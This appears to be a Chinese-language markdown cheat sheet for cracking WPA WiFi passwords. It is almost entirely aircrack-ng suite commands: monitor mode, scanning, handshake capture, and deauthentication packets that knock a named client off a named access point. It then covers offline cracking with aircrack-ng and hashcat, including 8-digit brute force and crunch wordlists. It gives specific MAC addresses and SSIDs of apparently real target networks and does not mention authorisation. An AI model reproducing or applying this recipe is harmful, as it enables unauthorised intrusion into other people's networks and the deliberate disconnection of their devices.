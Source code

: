 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

~~`sudo iwconfig wlan0 mode`~~

经实践，此命令不能查(Debian)

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 wifipass.hccap ?d?d?d?d?d?d?d?d`

    hashcat 字典模式
    
    `hashcat -m 2500 wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10

### 7. 示例 监听 `wlan1mon` 信号为 `CMCC-pbHs` 信道为 `11` 无线路由（AP）的MAC为 `AC:5A:EE:D3:FC:C0` 包保存到 `CMCC-pbHs.ivs` 文件
`sudo airodump-ng wlan1mon --essid CMCC-pbHs -c 11 --bssid AC:5A:EE:D3:FC:C0 --ivs -w CMCC-pbHs`
